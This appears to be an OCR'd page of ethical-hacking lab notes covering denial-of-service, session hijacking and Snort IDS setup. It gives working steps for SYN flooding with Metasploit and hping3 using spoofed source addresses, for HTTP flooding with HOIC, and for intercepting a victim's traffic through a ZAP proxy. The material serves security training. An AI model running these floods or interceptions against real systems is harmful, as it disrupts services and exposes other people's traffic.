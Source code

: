                                                                 *DENIAL-OF-SERVICE (DOS)*



**SYN Flooding using Metasploit**

- Check open port on 10.10.10.10 using nmap | ***nmap -p 21 10.10.10.10***
- Open Metasploit Framework
- Type ***use auxiliary/dos/tcp/synflood*** |SYN Flooding module
- *Type set RHOST [Victim IP] and press Enter*
- *Type set RPORT 21 and press Enter*
- *Type set SHOST [Spoofed IP Address] and press Enter*
- *Type set TIMEOUT 20000 and press Enter*
- View Flood attack on victim via **Wireshark** | use **filter tcp.port=21**

**SYN Flooding using HPING3**

***hping3 -S [Victim IP Address] -a [Atacker/Spoofed IP Address] -p [Port to flood e.g 22] –flood*** | -S turn on SYN Flag, --flood sent packets as fast as possible. Do not show replies

**HTTP Flooding Attack using HOIC (High Orbit Ion Cannon)**

- Open HOIC.
- Set threads = 20
- Click + to add target
- Enter Target http://<Target IP> à Power = High à Booster = GenericBoost.hoic
- Click **FIRE TEH LAZER!** to launch attack



                                                                  *SESSION HIJACKING*



**OWASP Zed Attack Proxy (ZAP)**

- First set Victim’s Proxy settings to attacker’s IP and port 8080.
- Open ZAP and enable Break Point and click green + to view break points
- Go to settings à local Proxies à Change IP from localhost to network IP (in this case 10.10.10.16).
- Browse from victim and view the request and responses on the attacker machine.

                                                            
                                                            
                                                            *EVADING IDS FIREWALLS AND HONEYPOTS*


**Snort – Intrusion Detection Setup**

- Copy **snort.conf** from shared folder (**Snort\snortrules\etc**) to **C:\Snort\etc.**
- Copy **so\_rules** folder from shared folder (**Snort\snortrules**) to **C:\Snort**.
- Copy **preproc\_rules** folder from shared folder (**Snort\snortrules**) to **C:\Snort**.
- Copy **rules** folder from shared folder (**Snort\snortrules**) to **C:\Snort**.
- Go to folder **C:\Snort\bin** and open ***snort*** in **cmd.**
- Enter ***snort -W*** to view ethernet info. Default ethernet index is **1**.
- Enter ***snort -dev -i 1*** to enable Ethernet Driver.
- Open 2nd CMD Window. Leave the first one open.
- Ping a machine from the 2nd CMD window. Snort will generate some alerts in the first window, this means it is working.
- Close both cmd terminals.

